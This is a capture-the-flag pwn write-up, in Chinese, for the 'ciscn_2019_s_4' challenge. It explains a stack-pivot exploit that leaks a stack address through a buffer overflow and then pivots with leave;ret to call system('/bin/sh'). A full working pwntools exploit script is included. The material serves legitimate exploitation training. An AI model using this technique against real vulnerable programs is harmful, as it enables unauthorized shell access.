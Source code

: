 ```yaml
---
title: 'ciscn_2019_s_4'
date: 2024-01-17 13:00:00 +0800
categories: [Stack_Pivoting]
tags: [ctf,pwn]
---
```


![image-20240117144616542](../assets/img/old_imgs/image-20240117144616542.png)

1. 存在漏洞函数,`s`变量存在溢出,但是长度不够,考虑栈迁移
2. 通过溢出打印(动态调试也可以)`ebp`栈上地址,计算得出`s`的地址,栈迁移到`s`的位置上
3. 向`s`中写入`payload`得到`shell`

![image-20240117145052413](../assets/img/old_imgs/image-20240117145052413.png)

计算得到偏移量为`0x38`

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_s_4')
io = process('./ciscn_s_4')
#io = gdb.debug('./ciscn_s_4')
padding = b'A'*0x27+b'B'
payload1 = padding
leave_ret = 0x08048562
io.sendafter(b'Welcome, my friend. What\'s your name?\n',payload1)
io.recvuntil(b'B')
s_addr = u32(io.recv(4))-0x38
print('s_addr->',hex(s_addr))

payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00'
payload2 = payload2.ljust(0x28,b'\x00')
payload2 += p32(s_addr)+p32(leave_ret)
io.send(payload2)

io.interactive()
```

详细关于栈迁移在之前随笔中有详解,不再赘述

有几个注意点:

1. `padding`中`B`起到标识位作用,方便后续交互
2. `payload2`开头`p32(0)`是为了填充`leave`指令
3. `b'/bin/sh'`的地址计算与`b\x00'`截断
